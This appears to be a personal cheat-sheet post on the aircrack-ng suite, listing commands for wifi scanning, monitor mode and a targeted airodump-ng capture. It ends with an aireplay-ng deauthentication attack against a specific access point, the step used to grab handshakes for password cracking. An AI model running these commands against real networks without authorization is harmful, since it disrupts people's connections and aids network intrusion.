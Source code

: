 ```yaml
---
title : Aircrack 
date : 21-06-21
layout : post
---
```



# scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# get all wifi present and bssid
sudo iw dev wlo1 scan 


## monitor mode

sudo airmon-ng start wlo1

## manager mode

sudo airmon-ng stop wlo1mon



## airodump : 


sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one

